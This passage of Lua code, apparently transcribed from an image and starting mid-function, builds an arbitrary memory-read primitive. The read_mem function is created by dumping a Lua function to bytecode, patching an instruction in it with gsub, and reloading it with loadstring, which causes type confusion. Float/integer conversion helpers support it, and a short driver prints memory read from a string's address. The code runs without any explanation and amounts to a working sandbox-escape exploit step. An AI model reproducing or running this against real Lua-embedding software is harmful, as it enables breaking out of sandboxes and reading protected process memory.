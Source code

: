 ```
  while true do -- this loop is math.frexp
    e = (e_lo + e_hi)
    e = (e - (e % 2)) / 2
    m = x / 2^e
    if m < 0.5 then e_hi = e elseif 1 <= m then e_lo = e else break end
  end

  if e+1023 <= 1 then
    m = m * 2^(e+1074)
    e = 0
  else
    m = (m - 0.5) * 2^53
    e = e + 1022
  end

  local lo = m % 2^32
  m = (m - lo) / 2^32
  local hi = m + e * 2^20
  return lo, hi
end

ii2f = function(lo, hi) -- Convert uint32_t[2] to double
  local m = hi % 2^20
  local e = (hi - m) / 2^20
  m = m * 2^32 + lo

  if e ~= 0 then
    m = m + 2^52
  else
    e = 1
  end
  return m * 2^(e-1075)
end

read_mem = loadstring(string.dump(function(mem_addr) -- AAAABBBB 1094795585 1111638594
  local magic=nil
  local function middle()
    local f2ii, asnum = f2ii, asnum
    local lud, upval
    local function inner()
      magic = "01234567"
      local lo,hi = f2ii(mem_addr)
      upval = "commonhead16bits"..ub4(lo)..ub4(hi)
      lo,hi = f2ii(asnum(upval));lo = lo+24
      magic = magic..ub4(lo)..ub4(hi)..ub4(lo)..ub4(hi)
    end
    inner()
    return asnum(magic)
  end
  magic = middle()
  return magic
end):gsub("(\164%z%z%z)....", "%1\0\0\128\1", 1))  --> move 0,3

x="AAAABBBB"
l,h=f2ii(asnum(x))
x=ii2f(l+24,h)
print(f2ii(read_mem(x)))
```